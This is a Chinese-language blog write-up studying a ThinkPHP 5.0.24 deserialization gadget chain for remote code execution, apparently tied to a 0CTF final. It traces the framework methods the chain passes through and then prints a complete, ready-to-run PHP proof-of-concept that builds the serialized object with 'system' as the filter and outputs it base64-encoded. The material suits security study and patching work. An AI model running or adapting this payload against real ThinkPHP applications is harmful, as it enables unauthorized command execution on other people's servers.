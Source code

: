 # Thinkphp5.0.24 反序列化rce链学习

这个链子是出现在9月份的0CTF中，一直没来得及学习，今天晚上抽出时间来看一下这个链子。

之前的5.0.x版本的反序列化链是写文件getshell，需要有一个可写的目录才行，而这条新链子不需要写文件，直接可以rce。





# 分析

整个链子的前部分后后部分都是老套路了，只是中间的部分稍微改了一下。

链子的前部分和老链子一模一样：https://blog.csdn.net/rfrder/article/details/114644844、

在运行到`thinkphp/library/think/session/driver/Memcached.php`的`write()`方法的时候：

```php
    public function write($sessID, $sessData)
    {
        return $this->handler->set($this->config['session_name'] . $sessID, $sessData, $this->config['expire']);
    }
```

这里的`$this->handler`用的是另外的一个类：`thinkphp/library/think/cache/driver/Memcache`的`set`方法：

```php
    public function set($name, $value, $expire = null)
    {
        if (is_null($expire)) {
            $expire = $this->options['expire'];
        }
        if ($expire instanceof \DateTime) {
            $expire = $expire->getTimestamp() - time();
        }

        if ($this->tag && !$this->has($name)) { 
            $first = true;
        }
        $key = $this->getCacheKey($name);
        if ($this->handler->set($key, $value, 0, $expire)) {
            isset($first) && $this->setTagItem($key);
            return true;
        }
        return false;
    }
```

在`if ($this->tag && !$this->has($name)) { `中进入`has`方法：

```php
    public function has($name)
    {
        $key = $this->getCacheKey($name);
        return false !== $this->handler->get($key);
    }
```

`getCacheKey()`则是进行一个拼接的操作：`return $this->options['prefix'] . $name;`，全都可控，然后调用`$this->handler->get($key);`。如果`handler`是`Request`类的话，接下来肯定都不用再说了，tp最最最熟悉的一个类的，rce的起源。



```php
    public function get($name = '', $default = null, $filter = '')
    {
        if (empty($this->get)) {
            $this->get = $_GET;
        }
        if (is_array($name)) {
            $this->param      = [];
            $this->mergeParam = false;
            return $this->get = array_merge($this->get, $name);
        }
        return $this->input($this->get, $name, $default, $filter);
    }
```

控一下`$this->get`，之后就是最最最熟悉的input方法了，在里面调用`$this->filterValue($data, $name, $filter);`实现rce，就不再提了。



具体的细节自己操作研究一下叭，在老链的基础上改出的POC如下：

```php
<?php
namespace think\process\pipes{

    use think\model\Pivot;

    class Windows{
        private $files = [];
        public function __construct()
        {
            $this->files[]=new Pivot();
        }
    }
}
namespace think{

    use think\console\Output;
    use think\model\relation\HasOne;

    abstract class Model{
        protected $append = [];
        protected $error;
        protected $parent;
        public function __construct()
        {
            $this->append[]="getError";
            $this->error=new HasOne();
            $this->parent=new Output();
        }
    }
}
namespace think\model\relation{

    use think\db\Query;

    class HasOne{
        protected $selfRelation;
        protected $query;
        protected $bindAttr = [];
        public function __construct()
        {
            $this->selfRelation=false;
            $this->query=new Query();
            $this->bindAttr=array(
                '123'=>"feng"
            );
        }

    }
}
namespace think\db{

    use think\console\Output;

    class Query{
        protected $model;
        public function __construct()
        {
            $this->model=new Output();
        }
    }
}
namespace think\console{

    use think\session\driver\Memcached;

    class Output{
        private $handle;
        protected $styles = [
            'info',
            'error',
            'comment',
            'question',
            'highlight',
            'warning',
            "getAttr"
        ];
        public function __construct()
        {
            $this->handle=new Memcached();
        }
    }
}
namespace think\session\driver{


    use think\cache\driver\Memcache;

    class Memcached{
        protected $handler;
        protected $config  = [
            'host'         => '127.0.0.1', // memcache主机
            'port'         => 11211, // memcache端口
            'expire'       => 3600, // session有效期
            'timeout'      => 0, // 连接超时时间（单位：毫秒）
            'session_name' => '', // memcache key前缀
            'username'     => '', //账号
            'password'     => '', //密码
        ];
        public function __construct()
        {
            $this->handler=new Memcache();
        }
    }
}
namespace think\cache\driver{


    use think\Request;

    class Memcache{
        protected $options = [
            'prefix'=>'feng/'
        ];
        protected $tag="feng";
        protected $handler ;
        public function __construct(){
            $this->handler = new Request();
        }

    }
}
namespace think{
    class Request{
        protected $get = array(
            "feng" =>'dir'
        );
        protected $filter = 'system';
    }
}
namespace think\model{
    use think\Model;
    class Pivot extends Model{

    }
}

namespace{
    use think\process\pipes\Windows;
    echo base64_encode(serialize(new Windows()));
}
```

![image-20211025200531099](Thinkphp5.0.24 反序列化rce链学习.assets/image-20211025200531099.png)



# 参考链接

[https://igml.top/2021/09/28/2021-0CTF-FINAL/](https://igml.top/2021/09/28/2021-0CTF-FINAL/)

